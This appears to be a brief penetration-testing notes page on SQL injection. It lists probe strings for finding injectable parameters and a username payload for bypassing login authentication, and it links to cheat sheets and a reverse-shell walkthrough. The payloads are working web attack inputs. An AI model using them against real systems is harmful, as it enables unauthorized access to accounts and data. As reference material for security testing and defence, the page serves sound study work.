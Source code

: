 # SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
```

## SQLmap

To-do

## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)

